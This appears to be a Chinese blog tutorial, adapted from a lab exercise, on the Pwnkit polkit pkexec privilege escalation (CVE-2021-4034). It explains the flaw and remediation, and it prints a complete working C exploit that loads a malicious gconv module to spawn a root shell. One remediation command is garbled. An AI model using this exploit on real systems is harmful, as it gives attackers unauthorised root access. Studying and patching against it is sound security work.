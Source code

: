 #  Pwnkit：CVE-2021-4034   
原创 t3y  ZeroPointZero安全团队   2025-02-01 04:13  
  
# Pwnkit：CVE-2021-4034  
  
**CVE-2021-4034**  
（俗称“Pwnkit”）是一个可怕的本地权限提升（LPE）漏洞，位于几乎所有主要Linux操作系统发行版（以及 Linux 操作系统）上默认安装的“Polkit”软件包中。许多其他 *nix 操作系统）。换句话说，它几乎影响了地球上每一个主流Linux系统。  
## 概述  
  
CVE-2021-4034（又名“pwnkit”）由  
Qualys  
的研究人员发现，并于 2022 年 1 月公布；可以  
在此处  
找到此漏洞的技术安全建议。自 2009 年首次发布以来，该漏洞存在于“Policy Toolkit”（或 Polkit）软件包的每个版本中，并且允许任何非特权攻击者轻松获得对任何安装了 Polkit 软件包的Linux计算机的完全管理访问权限。不幸的是，大多数Linux发行版上都默认安装了 Polkit，这使得该漏洞极其普遍。 Polkit 的易于利用性和普遍性使其成为绝对毁灭性的漏洞；然而，幸运的是它无法被远程利用，这使得 Pwnkit 纯粹是一个本地权限升级（LPE）漏洞。  
## 什么是Polkit？  
  
在我们直接查看该漏洞之前，先了解一下 Polkit 到底是什么。  
  
Polkit 是 Linux 授权系统的一部分。实际上，当您尝试执行需要更高级别权限的操作时，Polkit 可用于确定您是否拥有必要的权限。它与 systemd 集成，并且比传统的 sudo 系统更具可配置性。  
事实上，它有时被称为“systemd 的 sudo”，提供了一个用于向用户分配权限的细粒度系统。  
  
当与 polkit 交互时，我们可以使用pkexec  
实用程序 - 正是该程序包含Pwnkit漏洞。作为使用该实用程序的示例，尝试在GUI会话中通过pkexec  
运行useradd  
命令会导致弹出窗口询问凭据： pkexec useradd test1234  
  
在CLI会话中，我们会收到基于文本的提示：  
```
muiri@demo-vm:~$ pkexec useradd test1234==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===Authentication is needed to run '/usr/sbin/useradd' as the super userAuthenticating as: muiri,,, (muiri)    Password:
```  
  
总而言之，策略工具包可以被视为您可能已经熟悉的更简单的 sudo 系统的细粒度替代方案。  
## 漏洞  
  
如前所述，Pwnkit 漏洞存在于pkexec  
实用程序（Polkit 系统的主要前端）中。为了可读性，我们不会在这里讨论太多细节；但是，我们鼓励您仔细阅读  
Qualys 安全公告  
，以获取有关该漏洞的完整技术说明。  
  
简而言之：补丁之前发布的 pkexec 版本不能安全地处理命令行参数，这会导致“越界写入”漏洞，从而允许攻击者操纵 pkexec 运行的环境。  
这就是您真正需要了解的全部内容，但要获得稍微更技术性的解释，请继续阅读！  
  
更具体地说， pkexec 尝试解析我们使用 for 循环传递给它的任何命令行参数，从索引 1 开始偏移程序名称并获取第一个实参（例如，如果我们输入 pkexec bash  
，则由于pkexec  
是程序的名称，因此它将是参数0—实际的命令行参数从索引1开始）。程序的名称与参数解析无关，因此索引只是偏移以忽略它。  
  
那么，如果我们不提供任何论据，会发生什么？索引永久设置为1！ 以下伪代码可以帮助您形象化这一点：  
```
for(n=1; n < number_of_arguments; n++){      //Do Stuff    }
```  
  
如果参数数量为0，则n  
永远不会小于参数数量。因此，n  
保持等于1，并且循环被完全绕过。  
  
当 pkexec尝试写入索引n  
处的参数值时，这会成为一个问题。由于没有命令行参数，因此索引n  
处没有参数，相反程序会覆盖内存中的下一个值，当使用C调用程序时，它恰好是环境变量列表中的第一个值函数称为execve()  
。换句话说，通过向 pkexec 传递一个空参数列表，我们可以强制它覆盖环境变量！  
  
对于上下文：当您尝试运行设置了  
SUID 位  
的程序时，操作系统会删除某些“危险”环境变量（如 pkexec 所必需的那样）；这是为了防止攻击者能够在程序以管理权限运行时劫持该程序。使用越界写入，我们可以通过欺骗 pkexec 为我们添加这些危险环境变量来重新引入我们选择的这些危险环境变量。有多种不同的方法可以滥用它，所有这些都会导致以 root 用户身份执行代码。  
  
遗憾的是，利用 Pwnkit 非常容易。 网上有很多可用的漏洞利用程序，编写自己的版本并不是特别困难。  
  
我们将使用的版本是由 arthepsy 用 C 语言编写的，并在 Qualys 安全公告公开后不久发布。可以  
在此处  
找到该存储库。该漏洞利用的这种变体利用危险的GCONV_PATH  
变量来包含恶意共享对象文件，该文件以 root  
 权限调用/bin/sh shell  
。  
  
首先，我们必须连接到目标机器。如果您使用浏览器内连接，那么您已经可以使用屏幕右侧的终端通过浏览器进行访问。  
  
如果您不使用浏览器内连接，则可以使用SSH和以下凭据进行连接：  
- 用户名： tryhackme  
  
- 密码： TryHackMe123!  
  
连接后，我们需要导航到预先添加的pwnkit/子目录，然后使用以下命令编译漏洞利用： gcc cve-2021-4034-poc.c -o exploit  
  
然后我们可以使用./exploit  
运行漏洞利用程序以获得对目标的即时 root 访问权限！  
  
cve-2021-4034-poc.c  
```
#include <stdio.h>#include <stdlib.h>#include <unistd.h>char *shell =         "#include <stdio.h>\n"        "#include <stdlib.h>\n"        "#include <unistd.h>\n\n"        "void gconv() {}\n"        "void gconv_init() {\n"        "       setuid(0); setgid(0);\n"        "       seteuid(0); setegid(0);\n"        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/bash\");\n"        "       exit(0);\n"        "}";int main(int argc, char *argv[]) {        FILE *fp;        // 创建目录并确保权限        system("mkdir -p pwnkit; touch pwnkit/pwnkit.c");                // 编写恶意C代码        fp = fopen("pwnkit/pwnkit.c", "w");        fprintf(fp, "%s", shell);        fclose(fp);                // 编译恶意模块        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");        // 创建gconv模块目录，并写入模块信息        system("mkdir -p pwnkit/gconv-modules.d");        system("echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules.d/pwnkit");        // 确保路径权限设置正确        system("chmod -R a+x pwnkit");        // 设置环境变量，并执行pkexec        char *env[] = {            "GCONV_PATH=./pwnkit",  // 设置gconv模块的路径            "CHARSET=PWNKIT",       // 设置字符集            "SHELL=/bin/bash",      // 设置默认shell            NULL        };        // 使用pkexec执行并传递恶意模块        execve("/usr/bin/pkexec", (char*[]){NULL}, env);        return 0;}
```  
## 补救措施  
  
既然我们已经看到了CVE -2021-4034 的破坏性影响，那么我们如何防范它呢？  
  
幸运的是，开发人员在为关键漏洞开发补丁时往往速度相当快。举一个典型的例子：在撰写本文时，Canonical 已经在APT包管理器中为所有尚未终止生命的 Ubuntu 版本发布了 Polkit 包的修补版本。修补版本可以通过简单的 apt 升级来安装 - 例如 sudo apt update && sudo apt upgrade   
。  
  
在尚未发布该软件包的修补版本的发行版中，建议的修补程序是简单地从 pkexec 二进制文件中删除 SUID 位。这可以通过如下命令来完成：  
```
sudo chmod 0755which pkexec
```  
  
然而，这远非理想，它只是一个临时解决方案，直到更多发行版开始打包针对 Pwnkit 进行修补的 polkit 版本。  
  
需要注意的是，Pwnkit 漏洞利用有多种变体，使用不同的环境变量并以不同的方式利用漏洞。其中一些会留下痕迹和日志，另一些则不会。  
  
您可以通过尝试针对系统运行漏洞利用副本来检查以确保系统已修补。如果漏洞利用返回pkexec  
帮助菜单，则系统已修补：  
```
tryhackme@pwnkit$ ./exploit    pkexec --version |           --help |           --disable-internal-agent |           [--user username] PROGRAM [ARGUMENTS...]        See the pkexec manual page for more details.
```  
  
